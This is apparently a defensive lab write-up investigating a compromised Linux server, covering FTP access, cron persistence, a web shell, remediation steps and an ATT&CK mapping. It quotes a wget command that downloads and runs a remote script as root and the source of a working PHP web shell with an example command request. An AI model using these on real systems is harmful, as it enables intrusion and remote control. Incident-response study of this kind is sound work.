 # Lab: Linux System Hunt

## Scenario 

A potential compromise on a Linux developer server after suspicious Slack activity and unusual network connections were reported.The objective was to investigate potential host-based indicators and confirm whether the two incidents were related.

## Summary
The threat actor gained initial access to the server via FTP and established persistence using a cron job that periodically downloaded and executed a malicious shell script. Further analysis revealed the use of a PHP web shell for remote command execution.

### Commands Executed

| Purpose | Command |
|---|---|
| Identify successful FTP authentications | `journalctl \| grep -i "ftp" \| grep -i "success"` |
| Inspect `/tmp` activity | `journalctl \| grep -i /tmp` |
| Find files modified within time window | `find / -newermt "3 Sept 2021 06:00:03" ! -newermt "3 Sept 2021 06:01:47" 2>/dev/null` |
| Review activity for account `ftpadam` | `journalctl \| grep ftpadam \| grep "110.44.125.139"` |

## Findings (timeline)

### Initial Access
- Timestamp: Sept 3, 2021 – 05:52:31
- Method: FTP login using account ftpadam
- Source IP: 110.44.125.139
- Evidence of successful FTP authentication confirming external access to the system.
![FTP](FTP.png)  

### Persistence
- Timestamp: Sept 5, 2021 – 00:00:01
- Mechanism: A shell script was dropped in /tmp via wget, made executable, and executed by root.
- Command observed in logs: `wget http://crest.tt/bJx3 -O /tmp/tmp.sh && chmod +x /tmp/tmp.sh && bash /tmp/tmp.sh`


- A weekly cron job was also created to automatically download and execute the same remote script as root, ensuring continuous persistence.
![Shell Script](Shell_Script.png)
![Cron Job](Cron_Job.png)      

### Remote code execution via web shell
A PHP file was. The snippet in the screenshot below checks whether an HTTP parameter named z was provided (\$_REQUEST["z"]). If so, it prints a "pre" tag, assigns the parameter to \$z, and calls system(\$z). system() executes the string as a shell command on the server and returns output. *die* ends script execution after running the command. An attacker can send `http://victim/shell.php?z=whoami` (or other commands) and have the server run arbitrary shell commands as the web server user

Snippet observed:
`<?php 
if(isset($_REQUEST["z"])) {
  echo "<pre>"; 
  $z = ($_REQUEST["z"]); 
  system($z); 
  echo "</pre>"; 
  die; 
}
?>`

### Last Activity
The attacker’s last observed activity occurred at Sept 3, 2021 – 09:25:25.
![Last Activity](last_activity.png) 


## Mitigation Recommendations

1. **Isolate the host**
   - Remove network access (or block egress) immediately to prevent further communication with attacker infrastructure.

2. **Block IOCs**
   - Block IP `110.44.125.139` and related domains (e.g., `crest.tt`) at the firewall and proxy level.
   - Add domain/IP/file-hash IOCs to IDS/IPS rules and endpoint detection lists.

3. **Reimage the host**

4. **Credential rotation & access hardening**
   - Rotate all credentials used on the host (service accounts, SSH keys, API tokens) and invalidate sessions for compromised accounts (e.g., `ftpadam`).
   - Enforce MFA where possible and tighten access control (limit who can create cron entries / upload files).

5. **Post‑reimage validation & monitoring**
   - Deploy monitoring agents (EDR/agent and Zeek/Suricata) and centralize logs to the SIEM.
   - Apply detection rules tuned to the indicators observed (wget/curl from /tmp, new root cron entries, web shell patterns).
   - Monitor the network for any signs of the attacker attempting to re-contact the environment.

6. **Environment-wide hunt**
   - Search other hosts for the same IOCs (domain, IP, file hashes, suspicious cron entries).
   - Check authentication logs for lateral movement attempts or reused credentials.

7. **Remediation follow-ups**
   - Patch or replace legacy services (disable FTP or replace with SFTP/FTPS), and harden web applications to prevent file uploads or RCE.
   - Conduct a post-incident review to update playbooks and detection rules.


## MITRE ATT&CK Mapping

| Tactic         | Technique                         | ID            |
| -------------- | --------------------------------- | ------------- |
| Initial Access | Exploit via Remote Services (FTP) | **T1133**     |
| Persistence    | Scheduled Task/Job (Cron)         | **T1053.003** |
| Execution      | Command Execution via Web Shell   | **T1505.003** |


